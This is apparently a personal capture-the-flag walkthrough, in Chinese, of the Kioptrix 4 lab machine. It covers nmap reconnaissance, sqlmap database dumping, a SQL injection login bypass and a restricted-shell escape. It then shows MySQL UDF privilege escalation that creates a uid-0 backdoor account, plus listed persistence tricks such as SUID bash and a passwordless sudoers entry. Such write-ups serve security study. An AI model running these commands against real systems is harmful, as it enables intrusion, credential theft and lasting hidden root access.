 

┌──(root㉿kali)-[~]
└─# nmap 192.168.232.146 -A --min-rate 9999 -r
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-19 21:44 EDT
Nmap scan report for 192.168.232.146 (192.168.232.146)
Host is up (0.0022s latency).
Not shown: 566 closed tcp ports (reset), 430 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey:
|   1024 9b:ad:4f:f2:1e:c5:f2:39:14:b9:d3:a0:0b:e8:41:71 (DSA)
|_  2048 85:40:c6:d5:41:26:05:34:ad:f8:6e:f2:a7:6b:4f:0e (RSA)
80/tcp  open  http        Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.28a (workgroup: WORKGROUP)
MAC Address: 00:0C:29:E0:B2:61 (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.33
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 10h00m06s, deviation: 2h49m42s, median: 8h00m06s
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: KIOPTRIX4, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery:
|   OS: Unix (Samba 3.0.28a)
|   Computer name: Kioptrix4
|   NetBIOS computer name:
|   Domain name: localdomain
|   FQDN: Kioptrix4.localdomain
|_  System time: 2025-09-20T05:44:28-04:00

TRACEROUTE
HOP RTT     ADDRESS
1   2.16 ms 192.168.232.146 (192.168.232.146)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.75 seconds



##跑出一个database.sql，里面有个账户
dirsearch -u "http://192.168.232.146/"
![28b1f26bd0398295175e14f6a0a222dc.png](../_resources/28b1f26bd0398295175e14f6a0a222dc.png)





ssh -oHostKeyAlgorithms=ssh-rsa,ssh-dss -oKexAlgorithms=diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1 john@192.168.232.146



sqlmap -r /root/ddd.txt --batch --level 3
![fc820e9154f71cc380740d9dd035db48.png](../_resources/fc820e9154f71cc380740d9dd035db48.png)


┌──(root㉿kali)-[~]
└─# sqlmap -r /root/ddd.txt --batch --level 3 --dbs
![710cc904f3396e3ee1190a52b88c17ff.png](../_resources/710cc904f3396e3ee1190a52b88c17ff.png)
找到三个库


┌──(root㉿kali)-[~]
└─# sqlmap -r /root/ddd.txt --batch --level 3  -D members --tables
![50bc0f6e4d19d4d4e0a16c340ea7f769.png](../_resources/50bc0f6e4d19d4d4e0a16c340ea7f769.png)
找到一个表members



┌──(root㉿kali)-[~]
└─# sqlmap -r /root/ddd.txt --batch --level 3  -D members -T members --dump
![8d98f83667af42c6715dad953220fd15.png](../_resources/8d98f83667af42c6715dad953220fd15.png)
找到两个账户
john:MyNameIsJohn
 robert:ADGAdsafdfwt4gadfga==

在web直接输入john，密码admin‘ or 1=1# 也行
![1774b898b4dbc6eb48874cf8d3d2ef11.png](../_resources/1774b898b4dbc6eb48874cf8d3d2ef11.png)



ssh登录账户
![5f3642147e2fe58778031fb223cd7f39.png](../_resources/5f3642147e2fe58778031fb223cd7f39.png)

shell逃逸
robert:~$ uname -a
*** unknown command: uname
robert:~$ cat /etc/crontab
*** unknown command: cat
robert:~$ os.system("/bin/sh")
*** unknown command: os.system("/bin/sh")
robert:~$ echo os.system("/bin/sh")
$
$ whoami
robert
robert:~$ echo os.system("/bin/sh")
$
$ whoami
robert
$
$ cd /var/www
$ ls
checklogin.php  database.sql  images  index.php  john  login_success.php  logout.php  member.php  robert
$ vi checklogin.php
$host="localhost"; // Host name
$username="root"; // Mysql username
$password=""; // Mysql password
$db_name="members"; // Database name
$tbl_name="members"; // Table name
![1573180987a6f9593ec6deb747aa9967.png](../_resources/1573180987a6f9593ec6deb747aa9967.png)

#通过root账户进入mysql
mysql -u root

#输出数据库版本
SELECT VERSION();  

#输出当前用户的权限
SHOW GRANTS FOR CURRENT_USER();
![44057499744e6060f8a1152ac8f4d572.png](../_resources/44057499744e6060f8a1152ac8f4d572.png)



显示有 ALL PRIVILEGES，权限够，能进行UDF提权
![4b2074b700cf64a418c3e57462e7685e.png](../_resources/4b2074b700cf64a418c3e57462e7685e.png)


mysql> show global variables like 'secure%';


直接创建
SELECT sys_exec('useradd -ou 0 -g 0 hacker');
SELECT sys_exec('echo "hacker:password" | chpasswd');

mysql> select sys_exec('useradd -ou 0 -g 0 guang');                                          +--------------------------------------+
| sys_exec('useradd -ou 0 -g 0 guang') |
+--------------------------------------+
| NULL                                 |
+--------------------------------------+
1 row in set (0.04 sec)

mysql> select sys_exec('echo "guang:123456" | chpasswd');
+--------------------------------------------+
| sys_exec('echo "guang:123456" | chpasswd') |
+--------------------------------------------+
| NULL                                       |
+--------------------------------------------+
1 row in set (0.04 sec)

mysql> exit
Bye
$ pwd
/var/www
$ si guang
/bin/sh: si: not found
$ su guang
Password:
Failed to add entry for user guang.
#whoami
root
#id
uid=0(root) gid=0(root) groups=0(root)




cd /root
ls -la

![883b6db5a55624f3d21fb4b2518a9f12.png](../_resources/883b6db5a55624f3d21fb4b2518a9f12.png)
发现flag
![7123008e6a4ba4f9ffc5d4e88e5323a3.png](../_resources/7123008e6a4ba4f9ffc5d4e88e5323a3.png)




还有其他方式能获取root权限
1.设置suid位，允许普通用户允许以root权限允许程序
select sys_exec('chmod u+s /bin/bash');
#容易被破坏：一旦管理员执行 chmod u-s /bin/bash，后门就失效了。

2.将用户添加到sudo组
select sys_exec('/usr/sbin/usermod -aG sudo john');
利用Linux的用户组权限模型，成为了 sudo 组的一员，获得了使用 sudo 的资格。

3.修改/etc/sudoers文件
select sys_exec('echo "john ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers');
本质： 直接修改 sudo的授权策略文件
这是最强大的sudo授权形式。 它意味着用户 john 可以在不提供任何密码的情况下，执行任何root命令。